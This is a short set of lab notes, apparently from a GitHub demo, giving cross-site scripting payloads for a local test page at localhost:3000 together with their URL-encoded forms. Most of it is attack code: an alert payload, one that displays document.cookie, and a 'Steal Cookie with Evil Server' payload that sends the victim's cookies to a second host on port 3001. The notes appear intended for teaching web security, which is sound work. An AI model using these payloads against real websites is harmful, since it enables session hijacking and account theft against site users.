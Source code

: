 Note: use DevTools console "EncodeURIComponent" function to pass payloads as URI query parameters

Basic XSS Alert
<img src="does-not-exist" onerror="alert(\'hi!\')">

encodeURIComponent('<img src="does-not-exist" onerror="alert(\'hi!\')">');
Encoded format: "%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('hi!')%22%3E"
Pass output of above as URI query parameter^
Example: http://localhost:3000/?q=%22%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(%27hi!%27)%22%3E%22

View Cookie
<img src="does-not-exist" onerror="alert(document.cookie)">
Encoded format: '%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E'


Steal Cookie with Evil Server
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie;">
Encoded format: "%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement('img')%3B%20img.src%20%3D%20'http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D'%20%2B%20document.cookie%3B%22%3E"

